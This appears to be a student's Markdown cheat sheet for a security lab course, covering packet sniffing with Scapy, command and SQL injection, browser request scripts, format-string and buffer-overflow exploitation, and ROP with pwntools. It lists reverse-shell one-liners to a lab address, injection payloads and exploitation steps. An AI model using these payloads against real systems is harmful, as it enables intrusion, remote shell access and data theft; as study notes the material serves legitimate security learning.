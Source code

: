 # General
Change Keyboard Layout: Settings -> Text Entry


# Network Security
Find docker network interface:	`ifconfig / docker network`
```python
cmd = "ip a | grep 10.9.0.1 | awk '{print $7}'"
IFACE = subprocess.run(cmd, shell=True, check=True, universal_newlines=True, stdout=subprocess.PIPE).stdout.strip()
```
[Berkeley Packet Filters](https://www.ibm.com/docs/en/qsip/7.4?topic=queries-berkeley-packet-filters)

## ScaPy
```python
from scapy.all import *
pkt = sniff(iface="ifacename", filter="src host 10.9.0.5 and tcp dst port 23", prn=print_pkt)	# def print_pkt(pkt): ...
pkg = IP(dst="", src="", ttl=5)/ICMP(type=, code=, id=, seq=)/data
pkg = IP(...)/TCP(sport=, dport=, flags="", seq=, ack=)
pkt[IP].src
ptk.show()
```


# Web Security
## Command Injections
- Wait for incoming connections: `nc -lnv[k] 9090`
- Send to host: `echo text > /dev/tcp/127.0.0.1/9090`
- Initiate reverse shell: `/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1` / `nc -e /bin/bash host port`
- Delimiters to try:
	- ;
	- /n
	- &&, ||
	- ', ", `
	- $, \
- Command substitution:
	- \`whoami\`
	- $(whoami)

## SQL Injections
- `' or 1=1 --`
- ', ", \
- `1 UNION SELECT secret FROM secrets`
- `1 AND 1=0 UNION SELECT 1,2,3`
- `SELECT schema_name FROM information_schema.schemata`
- `SELECT table_name FROM information_schema.tables`
- Wildcards for `LIKE`:
	- match one: `_` / `?`
	- match one or more: `%`

## HTTP Verbs
- GET Request
```html
<script type="text/javascript">
	window.onload = function () {
		var sendurl="/sub1/sub2/site?var1=ab&var2=cd&var3=xy";
		var Ajax=new XMLHttpRequest();
		Ajax.open("GET", sendurl, true);
		Ajax.send();
	}
</script>
```
- POST Request
```html
<script type="text/javascript">
	window.onload = function() {
		var sendurl="/action/profile/edit";
		var contest="var1=ab&var2=cd&var3=xy";
		var Ajax=new XMLHttpRequest();
		Ajax.open("POST", sendurl, true);
		Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		Ajax.send(content);
	}
</script>
```


# Pwning
For `0xAABBCCDD` as String `"\xDD\xCC\xBB\xAA"`
`0x1234 = 0x00001234`

## Useful commands
```bash
echo `python3 -c "print('\x41')"`
python3 -c "print('\x41')" | command

objdump -d -M intel binaryFile

file binaryFile
checksec binaryFile
strings binaryFile
```


# GDB
Breakpoint:			`b main`
Adress of function:	`p/x functionName`
Content of adress:	`x 0x1234abcd`
Read "inside" adress:	`x/i 0x1234abcd`
Run with input:		`r < input_file`

## gdb-peda pattern search
`pattern create 50 pat50`
pattern search
Pattern buffer found at: ... size (...0x28...)

dissass main


# Format String
Print Hex value:							`%.8x`
Print String (takes adress as arg):			`%s`
Print empty chars:							`%210c`
Write number of printed symbols at adress:	`%n`
Use 64th argument:							`%64$.8x`

## Overwrite
1. Find position of buffer (for example 64)
2. Put adress of variable at beginning of buffer
3. After that write `"%210c%64$n"`, substitute 210 for decimal number of wanted hex value


# Bufferoverflow
1. find out how long until you overwrite the return adress / a function call
2. insert a pointer to the beginning of the buffer
3. put shellcode at the beginning of the buffer

## Return to Libc
2. find adress of `system()`, `exit()` and envoirenment variable `MYSHELL=/bin/sh`
3. but random stuff up to the return pointer (where EBP points to +4), then the adresses of `system()`, `exit()`, `MYSHELL=/bin/sh`


# ROP
Print all gadgets:
```python
from pwn import *
elf = context.binary = ELF('binaryFile')
rop = ROP(elf)
rop.gadgets
```
Get String Adress:
`r2 binaryFile` -> `izz` -> third column

## Generate ROP
```python
from pwn import *
elf = context.binary = ELF('binaryFile')
rop = ROP(elf)
rop.call(0x1234abcd, [0x5678efab])	# call a function with the given arguments (adress_of_system, [adress_of_/bin/sh])
rop.dump()
rop.chain()		# gives binary code without offset
```
